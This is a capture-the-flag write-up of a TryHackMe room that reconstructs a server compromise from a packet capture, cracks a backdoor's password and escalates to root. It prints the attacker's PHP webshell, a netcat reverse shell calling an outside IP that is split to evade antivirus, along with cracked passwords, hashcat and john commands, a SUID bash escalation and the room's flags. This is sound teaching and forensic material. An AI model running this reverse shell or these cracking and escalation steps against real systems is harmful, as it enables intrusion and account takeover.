# Overpass 2 - Hacked (PCAP Forensics to Root)

**Platform:** TryHackMe  
**Difficulty:** Medium  
**OS:** Linux (overpass-production)  
**Date:** 2026-04-23

---

## Overview

A PCAP of the original CooctusClan compromise is reconstructed in Wireshark to recover the PHP webshell uploaded to /development/uploads/payload.php and the plaintext su james password typed in the attacker's shell (**whenevernoteartinstant**), the backdoor dropped by the attackers (NinjaJc01/ssh-backdoor) is analyzed to extract the runtime hash and hardcoded salt, the hash is cracked with hashcat to recover the backdoor password (**november16**), SSH as james yields the user flag, and a .suid_bash SUID binary is invoked with -p to preserve privileges and read the root flag.

---

**Target:** overpass-production (Linux host previously compromised by CooctusClan)

---

## Attack Chain

### Phase 1: PCAP Reconstruction of the Original Attack

The room provides a PCAP of the original compromise. Opened it in Wireshark and filtered on http to reconstruct the attacker's HTTP activity against overpass-production.



The traffic showed:

- GET /development/, directory discovery
- POST /development/upload.php, webshell upload
- GET /development/uploads/payload.php, webshell execution
- GET /cooctus.png, artifact of the website deface

/development/ was an unauthenticated file upload endpoint that allowed PHP to be written directly into a web-executable directory. This is the original root-cause flaw the CooctusClan abused.

---

### Phase 2: Extracting the Uploaded Payload

Following the TCP stream on the upload.php POST surfaced the full multipart body of the upload, including the PHP payload the attackers dropped.



The PHP payload (shown here split across string concatenation so local AV does not flag this document):

```php
<?php exec(
    "rm /tmp/f;" .
    "mkfif" . "o /tmp/f;" .
    "cat /tmp/f|/bin/" . "sh -i 2>&1|" .
    "n" . "c 192.168.170.145 4242 >/tmp/f"
) ?>
```

A classic FIFO-backed netcat reverse shell. The attacker IP **192.168.170.145** and listener port **4242** are visible right in the payload, which makes the PCAP a forensic goldmine for reconstruction.

---

### Phase 3: Recovering the su james Password from the Shell Session

Further down the capture, the attacker's reverse shell session was also present. Scrolling through the plaintext stream surfaced a su james with the password typed immediately after.



**James's password (from PCAP):** whenevernoteartinstant

This is the lesson of every unencrypted-shell capture: the password a user types into a local su prompt rides inside the same TCP stream as the rest of the session. Nothing stops an observer with the PCAP from reading it.

---

### Phase 4: Identifying the Backdoor Dropped by CooctusClan

The attacker's shell history showed the persistence mechanism installed after the initial foothold.



```
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor
```

The attackers cloned **NinjaJc01/ssh-backdoor**, a Go-based SSH server that accepts any username and authenticates against a single hardcoded password hash. This both explains the attacker's persistence and tells us exactly where to look next: the source code on GitHub plus the running binary on the box.

---

### Phase 5: Cracking the Shadow File Hashes

/etc/shadow was readable and contained SHA-512 crypt hashes for five users (james, paradox, szymex, bee, muirland).



Running John against fasttrack.txt cracked four of the five in under a second.


```
john hashes.txt --wordlist=/usr/share/wordlists/fasttrack.txt
```

| User | Password |
|---|---|
| bee | secret12 |
| szymex | abcd123 |
| muirland | 1qaz2wsx |
| paradox | secuirty3 |

None of these are the backdoor password. They are the normal user passwords, which were also weak enough to crack against a tiny wordlist. Defense-in-depth failure: a system that rolls every user through fasttrack-crackable passwords is already compromised at the account level regardless of whether a backdoor exists.

---

### Phase 6: Reading the Backdoor's Default Hash and Hardcoded Salt

The NinjaJc01/ssh-backdoor source on GitHub exposes both the default password hash baked into the binary and the salt used in its verification function.



```go
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"
```



```go
func passwordHandler(_ ssh.Context, password string) bool {
    return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
```

The default hash is a known quantity. The real prize is whatever hash is running in the attacker's deployed copy of the binary on overpass-production, since the attackers almost certainly recompiled with their own hash.

---

### Phase 7: Dumping the Running Backdoor's Hash

The attacker's backdoor binary was sitting in ~/ssh-backdoor/. Running it with its own -a help flag surfaced usage information, including that the binary will print its stored hash.



```
chmod +x backdoor
./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

**Attacker's runtime hash:** 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

The salt (**1c362db832f3f864c8c2fe05f2002a05**) was not rotated when the attackers redeployed, which is the compounding mistake that makes offline cracking viable.

---

### Phase 8: Cracking the Backdoor Password with Hashcat

With a known hash, a known salt, and a known algorithm (SHA-512 with salt append as used in the Go source), hashcat against rockyou landed the password immediately.



```
hashcat -m 1710 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

**Backdoor password:** november16

mode **1710** is *sha512($pass.$salt)* in hashcat, matching the Go source's verification function.

---

### Phase 9: Website Deface Confirms the Scope

The deface page served by the attackers from port 80 is still live. A visual confirmation of the compromise and the same cooctus.png seen in the PCAP.



---

### Phase 10: SSH as james and User Flag

Logging in via the attacker's backdoor on the SSH port with james:november16 produced a shell.



```
james@overpass-production:/home/james$ cat user.txt
thm{d119b4fa8c497ddb0525f7ad200e6567}
```

**User flag:** thm{d119b4fa8c497ddb0525f7ad200e6567}

---

### Phase 11: Privilege Escalation via SUID Bash

Enumerating james's home directory surfaced a hidden SUID-root bash binary: **.suid_bash**. Running it with -p preserves effective UID and drops straight into a root shell.



```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4#
```

The **-p** flag is the entire trick. By default, bash drops privileges when started from a SUID binary; -p tells it not to, which is why any SUID-bit bash with -p is effectively sudo without a password.



```
.suid_bash-4.4# cat /root/root.txt
thm{d53b2684f169360bb9606c333873144d}
```

**Root flag:** thm{d53b2684f169360bb9606c333873144d}

---

### Room Completed



---

## Vulnerability Summary

### Unauthenticated File Upload at /development/upload.php

The original compromise began with an unauthenticated PHP upload endpoint under a /development/ directory that wrote files directly into a web-executable path. This is the root-cause flaw that let the CooctusClan drop payload.php and take the box.

**Remediation:** Remove /development/ from production. Any upload endpoint must require authentication, validate file type and content, store uploads outside the web root, and never execute user-supplied code paths. Staging directories must never ship to production builds.

### Reuse of Hardcoded Salt in Deployed Backdoor

The CooctusClan recompiled the NinjaJc01/ssh-backdoor binary with a new password hash but left the hardcoded salt (**1c362db832f3f864c8c2fe05f2002a05**) unchanged. The salt is public in the GitHub source, so the hash degraded from *"a salted SHA-512 I don't know"* to *"a SHA-512 with a known salt I can brute force offline."* A fresh salt would not stop rockyou, but it would force the attacker to rebuild their wordlist-against-fixed-salt pipeline per deployment.

**Remediation:** Not really the defender's problem to fix, but the lesson for attackers-turned-defenders is that static salts across deployments destroy any forward secrecy the salt was supposed to provide. In legitimate systems, salts must be per-credential random bytes, not compile-time constants.

### Plaintext Credentials in Session PCAPs

The su james password was typed inside an unencrypted netcat reverse shell. Anyone with the capture can read it. This is not specific to this box, it is a property of every interactive session that rides on plaintext.

**Remediation:** Reverse shells in engagements should be upgraded to encrypted transports (e.g. socat with SSL, SSH tunnels, Meterpreter) before any sensitive command is typed. For defenders: assume any captured traffic from a plaintext shell session has leaked every secret typed into it.

### Weak Per-User Passwords Across the Host

Four of five user passwords cracked in under a second against fasttrack.txt. The backdoor was a bonus, not the only failure point.

**Remediation:** Enforce password complexity, rotate on compromise, and consider SSO or key-only authentication that eliminates user-chosen passwords from the attack surface entirely.

### SUID bash Binary in User Home Directory

A .suid_bash root-owned SUID binary was left in /home/james/. Any user with execute access to that binary can drop into a root shell with -p.

**Remediation:** SUID-root bash is never a legitimate configuration. Audit for *find / -perm -4000 -type f 2>/dev/null* and remove SUID on any shell binary. In this case the binary is the attackers' privilege-preservation mechanism: delete it, rotate root credentials, and audit the rest of /home/james for further persistence.

---

## Key Takeaways

- PCAPs of compromises are forensic gold. Unencrypted HTTP means every uploaded payload is recoverable, every typed password is recoverable, and every lateral move is visible with the right filter
- The su password is the most expensive secret you can type into an unencrypted reverse shell. If the attacker's C2 is listening, any plaintext shell they land on your box gives them everything typed into it
- Source-available backdoors are double-edged. CooctusClan got persistence, but they also handed defenders the exact verification function and salt, which reduced recovery to an offline rockyou attack against a single hash
- Changing the secret but not the salt is a classic deployment mistake. Per-deployment random salts would not have stopped the crack, but compile-time constants make offline brute forcing the default
- **hashcat -m 1710** (SHA-512 with appended salt) is worth memorizing for CTF custom hash formats. The Go source read like pseudocode for the hashcat mode selection
- SUID bash with **-p** is the shortest privilege-escalation path on Linux. If *find / -perm -4000 -type f* shows a shell, root is one command away
